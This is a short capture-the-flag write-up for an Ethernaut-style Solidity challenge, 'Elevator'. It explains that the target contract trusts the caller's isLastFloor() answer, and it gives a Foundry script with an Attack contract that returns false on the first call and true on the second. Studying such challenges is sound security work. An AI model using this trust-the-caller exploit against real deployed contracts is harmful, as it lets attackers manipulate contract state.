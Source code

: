 ```solidity
}
```

**Goal:**

We need to get to the top floor, i.e make the top boolean to `true`.

**Explanation:**

1. The Elevator calling the `isLastFloor()` function on `msg.sender` which is insecure. Dont trust the unknown libraries or contract while making the calls.
2. The `top` variable is being updated upon the return value of the `isLastFloor()` function.
3. But, To pass the `if` condition the `isLastFloor()` should return the `false`. But the `top` will become `false` only if it results false everytime.
4. We can observe that the `isLastFloor()` function is being called twice. So, we can write a contract which implements `isLastFloor()` function in such a way that is returns `false` on first call and `true` on second call.
5. So, that the `if` condition satisfies  and `top` will be updated to true.

**Level11Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level11.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level11Sol is Script{
     Elevator public instance = Elevator(0x8Ad804B2A6907983267C2ef6A962d50F5C63A694);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
         new Attack().exploit();
        vm.stopBroadcast();
    }
}
contract Attack{
    Elevator public instance = Elevator(0x8Ad804B2A6907983267C2ef6A962d50F5C63A694);
    uint public floor;
    function exploit() external{
        instance.goTo(3);
    }
    function isLastFloor(uint _floor)external returns(bool){
        if(floor == _floor){
            return true;           
        }
         floor = _floor;
        return false;
    }
}
```

**To run the script**

